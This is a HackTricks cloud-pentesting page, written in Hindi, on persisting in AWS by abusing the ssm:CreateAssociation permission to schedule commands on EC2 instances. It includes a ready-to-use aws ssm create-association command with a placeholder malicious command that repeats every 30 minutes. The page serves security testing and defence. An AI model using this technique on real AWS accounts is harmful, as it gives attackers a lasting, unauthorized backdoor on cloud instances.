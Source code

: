 # AWS - SSM Perssitence

{{#include ../../../banners/hacktricks-training.md}}

## SSM

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### स्थिरता के लिए ssm:CreateAssociation का उपयोग करना

ssm:CreateAssociation अनुमति के साथ एक हमलावर State Manager Association बना सकता है जो SSM द्वारा प्रबंधित EC2 इंस्टेंस पर स्वचालित रूप से कमांड निष्पादित करता है। इन संघों को एक निश्चित अंतराल पर चलाने के लिए कॉन्फ़िगर किया जा सकता है, जिससे ये इंटरैक्टिव सत्रों के बिना बैकडोर जैसी स्थिरता के लिए उपयुक्त होते हैं।
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> यह स्थायीता विधि तब तक काम करती है जब तक EC2 इंस्टेंस को Systems Manager द्वारा प्रबंधित किया जा रहा है, SSM एजेंट चल रहा है, और हमलावर के पास संघ बनाने की अनुमति है। यह इंटरैक्टिव सत्रों या स्पष्ट ssm:SendCommand अनुमतियों की आवश्यकता नहीं है। **महत्वपूर्ण:** `--schedule-expression` पैरामीटर (जैसे, `rate(30 minutes)`) को AWS के न्यूनतम अंतराल 30 मिनट का सम्मान करना चाहिए। तात्कालिक या एक बार के निष्पादन के लिए, `--schedule-expression` को पूरी तरह से छोड़ दें — संघ निर्माण के बाद एक बार निष्पादित होगा।

{{#include ../../../banners/hacktricks-training.md}}
